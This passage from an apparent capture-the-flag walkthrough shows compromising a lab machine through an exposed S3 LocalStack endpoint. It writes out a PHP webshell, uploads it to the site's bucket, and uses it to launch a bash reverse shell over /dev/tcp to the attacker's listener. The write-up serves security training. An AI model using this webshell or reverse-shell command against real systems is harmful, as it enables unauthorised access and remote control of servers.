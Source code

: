 If I put that in my local `~/.aws/credentials`, now I can hit this
LocalStack from my VM:



    oxdf@parrot$ aws --endpoint-url http://10.10.11.113:4566 s3 ls
    2021-08-26 12:14:44 website



### Webshell

With this access to the bucket containing the files from the site
running with PHP, I'll try to write a simple PHP webshell:



    gobox> echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>'
    <?php echo shell_exec($_REQUEST["cmd"]); ?>
    gobox> echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' > /tmp/.0xdf



Now I'll upload that file to the bucket:



    gobox> aws s3 cp /tmp/.0xdf s3://website/0xdf.php
    upload: ../../tmp/.0xdf to s3://website/0xdf.phpile(s) remaining



It's not weird that a website might be [hosted out of an S3
bucket](https://docs.aws.amazon.com/AmazonS3/latest/userguide/HostingWebsiteOnS3Setup.md).
It's a bit odd that that site would be running PHP, but not impossible.

Either the site is hosted from the bucket or there's some process
keeping the bucket and the site in sync, so the webshell shows up
instantly on the main site:

![](/img/image-20210826141101951.png)

### Shell

This time the host can connect back. I'll visit:



    http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'



And at a listening `nc`, there's a shell:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.113] 48048
    bash: cannot set terminal process group (819): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@gobox:/opt/website$ 
